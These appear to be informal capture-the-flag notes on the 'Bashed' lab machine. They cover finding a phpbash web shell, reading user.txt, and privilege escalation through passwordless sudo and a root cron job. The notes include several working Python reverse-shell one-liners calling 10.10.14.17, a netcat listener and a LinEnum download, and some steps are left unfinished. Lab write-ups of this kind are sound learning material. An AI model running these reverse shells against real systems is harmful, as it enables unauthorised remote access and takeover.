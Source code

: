 immediately we see awebsite mentioning phpbash

mentions : https://github.com/Arrexel/phpbash

use dirbuster to find /dev dorectory

clicking on phpbash opens a shell

```
www-data@bashed
:/var/www/html/dev# dir

phpbash.min.php phpbash.php
www-data@bashed
:/var/www/html/dev# cd /home

www-data@bashed
:/home# dir

arrexel scriptmanager
www-data@bashed
:/home# cd arrexel

www-data@bashed
:/home/arrexel# dir

user.txt
www-data@bashed
:/home/arrexel# cat user.txt

91cf19ebbfbe2ebad9069db13cda7794
```

shell upgrade , getting a python shell

```
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.17",6666));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'

Local Kali:
```

and youll get reverse at `nc -lvp 1235`
Start with LinEnum.sh to get info about privesc. This section stands out:

```
wget https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh -o linenum.sh

```

www-data can sudo as scriptmanager:
We can sudo without supplying a password!
Matching Defaults entries for www-data on bashed:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on bashed:
    (scriptmanager : scriptmanager) NOPASSWD: ALL

for privilege escalation

```
echo "import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"10.10.14.17\",31337));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call([\"/bin/sh\",\"-i\"]);" > .exploit.py


```

not getting root

$ printenv
OLDPWD=/var/www/html/dev
APACHE_RUN_DIR=/var/run/apache2
APACHE_PID_FILE=/var/run/apache2/apache2.pid
PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
APACHE_LOCK_DIR=/var/lock/apache2
LANG=C
APACHE_RUN_USER=www-data
APACHE_RUN_GROUP=www-data
APACHE_LOG_DIR=/var/log/apache2
PWD=/var/www/html/dev


### offcial walkthroug

nmap -T4 -A-v 10.10.10.68

result of sudo -l 

```
Matching Defaults entries for www-data on bashed:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on bashed:
    (scriptmanager : scriptmanager) NOPASSWD: ALL

```

now since the cron job is run as root we need to add a new file inside the script
```
import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.17",1337));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

cant see any crontab
